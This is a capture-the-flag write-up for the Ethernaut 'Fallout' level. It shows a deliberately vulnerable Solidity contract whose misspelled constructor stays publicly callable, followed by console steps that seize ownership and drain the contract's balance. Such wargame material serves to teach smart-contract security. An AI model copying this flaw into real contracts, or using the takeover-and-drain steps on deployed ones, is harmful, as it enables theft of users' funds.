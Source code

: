```yaml
---
title: "Fal1Out"
tags: ["Constructor"]
reference: https://ethernaut.openzeppelin.com/level/2
---
```


# Description

Claim ownership of the contract below to complete this level.

Things that might help

- Solidity Remix IDE

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Fallout {
    using SafeMath for uint256;

    mapping(address => uint256) allocations;
    address payable public owner;

    /* constructor */
    function Fal1out() public payable {
        owner = msg.sender;
        allocations[owner] = msg.value;
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function allocate() public payable {
        allocations[msg.sender] = allocations[msg.sender].add(msg.value);
    }

    function sendAllocation(address payable allocator) public {
        require(allocations[allocator] > 0);
        allocator.transfer(allocations[allocator]);
    }

    function collectAllocations() public onlyOwner {
        msg.sender.transfer(address(this).balance);
    }

    function allocatorBalance(address allocator) public view returns (uint256) {
        return allocations[allocator];
    }
}
```

# Solution


1. found that anyone can call the "constructor"

- so anyone can change the ownership to himself

```
    /* constructor */
    function Fal1out() public payable {
        owner = msg.sender;
        allocations[owner] = msg.value;
    }
```

2. become owner

```
contract.Fal1out()
Promise {<pending>, _events: i, emit: ƒ, on: ƒ, …}
```

3. get contract balance

```
contract.collectAllocations()
Promise {<pending>, _events: i, emit: ƒ, on: ƒ, …}
```

4. check contract balance

```
await getBalance(instance)
'0'
```
